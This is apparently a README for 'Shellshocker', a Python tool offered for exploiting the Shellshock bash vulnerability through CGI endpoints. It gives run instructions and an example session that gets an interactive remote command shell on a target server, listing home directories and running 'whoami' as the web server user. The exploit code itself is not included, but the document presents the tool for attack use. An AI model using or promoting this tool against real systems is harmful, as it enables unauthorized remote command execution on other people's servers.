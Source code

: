 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Write command and hit enter


  3. Get the output and back to 2 :)

### Requirements:
  1. Python  
  2. Mechanize (Can installed by: 'sudo pip install mechanize')

### Examples:
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
shellshock/command$ ls -lath /home

total 16K
dr-xr-xr-x. 22 root    root    4.0K Feb  9 21:14 ..
drwxrwxrwx.  2 bynarr  bynarr  4.0K Jan 27  2015 bynarr
drwx------   2 apophis apophis 4.0K Jan  2  2015 apophis
drwxr-xr-x.  4 root    root    4.0K Dec 30  2014 .

shellshock/command$ whoami

apache

shellshock/command$ ^C
Aborted / Invulnerable
```
